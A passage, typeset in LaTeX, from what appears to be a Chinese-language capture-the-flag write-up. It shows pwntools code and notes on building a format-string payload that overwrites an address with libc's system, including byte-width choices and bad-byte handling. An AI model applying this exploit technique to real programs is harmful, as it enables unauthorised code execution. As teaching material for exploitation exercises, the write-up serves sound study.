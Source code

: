 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ build\_write\_payload(where, what):}
    \ControlFlowTok{return}\NormalTok{ fmtstr\_payload(}
\NormalTok{        BUF\_POS,                    }\CommentTok{\# 我們控制的第 1 個參數編號}
\NormalTok{        \{where: p64(what)[:}\DecValTok{6}\NormalTok{]\},     }\CommentTok{\# 只寫 6 bytes（48{-}bit 的 libc 位址）}
\NormalTok{        write\_size}\OperatorTok{=}\StringTok{"byte"}\NormalTok{,          }\CommentTok{\# 想以 1 byte 為單位寫}
\NormalTok{        numbwritten}\OperatorTok{=}\DecValTok{0}\NormalTok{,              }\CommentTok{\# 在這之前 printf 還沒印過東西}
\NormalTok{        badbytes}\OperatorTok{=}\StringTok{b"}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{,             }\CommentTok{\# 不能在 payload 裡出現 0x0a（fgets 會斷行）}
\NormalTok{    )}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※注意 \texttt{write\_\allowbreak{}size="byte"} \textbf{不代表}輸出一定是 6 個
\texttt{\%\allowbreak{}hhn}：\texttt{fmtstr\_\allowbreak{}payload} 的 \texttt{write\_\allowbreak{}size\_\allowbreak{}max}
預設是 \texttt{"long"}，它會把相鄰 byte 合併成
\texttt{\%\allowbreak{}hn}/\texttt{\%\allowbreak{}n}。想強制 1 byte 一個 \texttt{\%\allowbreak{}hhn} 要再傳
\texttt{write\_\allowbreak{}size\_\allowbreak{}max="byte"}。 兩者都能打通本題（見 §3.4）。
\end{quote}

\texttt{p64(what){[}:\allowbreak{}6{]}}：\texttt{system} 的位址在 x86-64
使用者空間只用到低 6 bytes（＝48 bits； 高位 2 bytes 恆為
\texttt{\textbackslash{}\allowbreak{}x00\textbackslash{}\allowbreak{}x00}），寫 6 bytes 就夠，第
7、8 byte 本來就是 0，不用動。 （完整推導與「為什麼不能寫 8
bytes」見上面 §5 的「為什麼只寫 6 bytes？」。） \texttt{fmtstr\_\allowbreak{}payload}
會自動：切 byte → 依數值排序 → 算好每個
\texttt{\%\allowbreak{}\textless{}\allowbreak{}width\textgreater{}\allowbreak{}c} → 把位址補到 8-byte 邊界 →
產生正確的 \texttt{\%\allowbreak{}N\$\allowbreak{}hhn} / \texttt{\%\allowbreak{}N\$\allowbreak{}hn} / \texttt{\%\allowbreak{}N\$\allowbreak{}n}
索引（哪一種取決於 \texttt{write\_\allowbreak{}size\_\allowbreak{}max}，見上面 ※注意）。
\end{document}
